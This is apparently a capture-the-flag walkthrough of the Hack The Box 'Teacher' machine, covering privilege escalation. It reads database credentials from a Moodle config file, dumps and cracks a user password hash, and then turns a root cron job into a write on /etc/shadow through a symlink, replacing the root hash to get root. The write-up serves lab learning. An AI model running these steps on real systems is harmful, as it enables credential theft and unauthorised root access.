


# 15 - PrivEsc


# Configuration File

The first place to look into for lateral movement is the the web server itself. Web apps like Moodle use databases to store data. If we can access the config file we access the database.


```php
www-data@teacher:/var/www/html/moodle$ cat config.php
<?php  // Moodle configuration file

unset($CFG);
global $CFG;
$CFG = new stdClass();

$CFG->dbtype    = 'mariadb';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'root';
$CFG->dbpass    = 'Welkom1!';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (
  'dbpersist' => 0,
  'dbport' => 3306,
  'dbsocket' => '',
  'dbcollation' => 'utf8mb4_unicode_ci',
);

$CFG->wwwroot   = 'http://10.10.10.153/moodle';
$CFG->dataroot  = '/var/www/moodledata';
$CFG->admin     = 'admin';

$CFG->directorypermissions = 0777;

require_once(__DIR__ . '/lib/setup.php');

// There is no php closing tag in this file,
// it is intentional because it prevents trailing whitespace problems!
```


Always try password reuse for system users before proceeding with the database. In our case, they are not using the same password.


# Passwords
```bash
www-data@teacher:/var/www/html/moodle$ mysql -u root -p                                                                                                                                       Enter password:Welkom1!

MariaDB [(none)]> use moodle;
MariaDB [moodle]> select username,password from mdl_user;
+-------------+--------------------------------------------------------------+
| username    | password                                                     |
+-------------+--------------------------------------------------------------+
| guest       | $2y$10$ywuE5gDlAlaCu9R0w7pKW.UCB0jUH6ZVKcitP3gMtUNrAebiGMOdO |
| admin       | $2y$10$7VPsdU9/9y2J4Mynlt6vM.a4coqHRXsNTOq/1aA6wCWTsF2wtrDO2 |
| giovanni    | $2y$10$38V6kI7LNudORa7lBAT0q.vsQsv4PemY7rf/M1Zkj/i1VqLO0FSYO |
| Giovannibak | 7a860966115182402ed06375cf0a22af                             |
+-------------+--------------------------------------------------------------+
4 rows in set (0.00 sec)

MariaDB [moodle]> 

```

Giovannibak password doesn't look like the other passwords in the database.


# MD5 Hash
```
┌─[user@parrot]─[10.10.14.14]─[~/htb/teacher]
└──╼ $ echo -n 7a860966115182402ed06375cf0a22af | wc -c
32
```

32 character length usually points us to md5.

# CrackStation


**expelled** is the password

# Giovanni
```bash
www-data@teacher:/var/www/html/moodle$ su - giovanni
Password: expelled
giovanni@teacher:~$
```

The password from the mysql database matches the giovanni's password.

# Files owned by root
```
giovanni@teacher:~/work/tmp$ ls -la
total 16
drwxr-xr-x 3 giovanni giovanni 4096 Jun 27  2018 .
drwxr-xr-x 4 giovanni giovanni 4096 Jun 27  2018 ..
-rwxrwxrwx 1 root     root      256 Aug 28 18:45 backup_courses.tar.gz
drwxrwxrwx 3 root     root     4096 Jun 27  2018 courses
```

Once logged in, we notice files that belong to root. 


# Root is extracting tarball every minutes
```bash
giovanni@teacher:~/work/tmp$ date
Sat Aug 28 18:50:11 CEST 2021
giovanni@teacher:~/work/tmp$ ls -la
total 16
drwxr-xr-x 3 giovanni giovanni 4096 Aug 28 18:50 .
drwxr-xr-x 4 giovanni giovanni 4096 Jun 27  2018 ..
-rwxrwxrwx 1 root     root      256 Aug 28 18:50 backup_courses.tar.gz
drwxrwxrwx 3 root     root     4096 Aug 28 18:50 courses
```

Today's date and time matches the file modification time. This means a process running as root is doing something in our home directory every minutes. Of course we should take into account that the archive and courses are read/write open to everybody.

We need to know what exactly is happening in giovanni's home. To do that we have to monitor all the processes. PsPy is a great tool for monitoring processes without root permissions.

# Pspy64


Apparently, /usr/bin/backup.sh is a cron job.


# Cron job
```bash
giovanni@teacher:~/work/tmp/courses$ cat /usr/bin/backup.sh
#!/bin/bash
cd /home/giovanni/work;
tar -czvf tmp/backup_courses.tar.gz courses/*;
cd tmp;
tar -xf backup_courses.tar.gz;
chmod 777 * -R;
```

1- tar -czvf creates a gzip archive with files in courses/ and names it tmp/backup_courses.tar.gz
2- tar -xf extracts the archive into tmp
3- gives read write permissions to everything in *tmp*

Remember we have write access to tmp, a symbolic link to /etc/shadow should give us read write permission.

# Symbolic link to shadow
```bash
giovanni@teacher:~/work/tmp$ ln -sf  /etc/shadow .
giovanni@teacher:~/work/tmp$ ls -l /etc/shadow
-rwxrwxrwx 1 root shadow 961 Jun 27  2018 /etc/shadow
```


# replace root hash with giovanni's 
```bash
root@teacher:~# cat /etc/shadow | grep 'giovan\|root'
root:$6$RiDoH4VN$WamVNCkuoZyN1uM6hmyKKt6GwGWAamiQM3SYCrr5lmUYnmV7vpBNkYZCHqjh7UDtsdF8NbGjM7dJPIsxeFkrx0:17709:0:99999:7:::
giovanni:$6$RiDoH4VN$WamVNCkuoZyN1uM6hmyKKt6GwGWAamiQM3SYCrr5lmUYnmV7vpBNkYZCHqjh7UDtsdF8NbGjM7dJPIsxeFkrx0:17709:0:99999:7:::
```


# root
```bash
giovanni@teacher:~/work/tmp$ su -
Password: expelled
root@teacher:~# 
```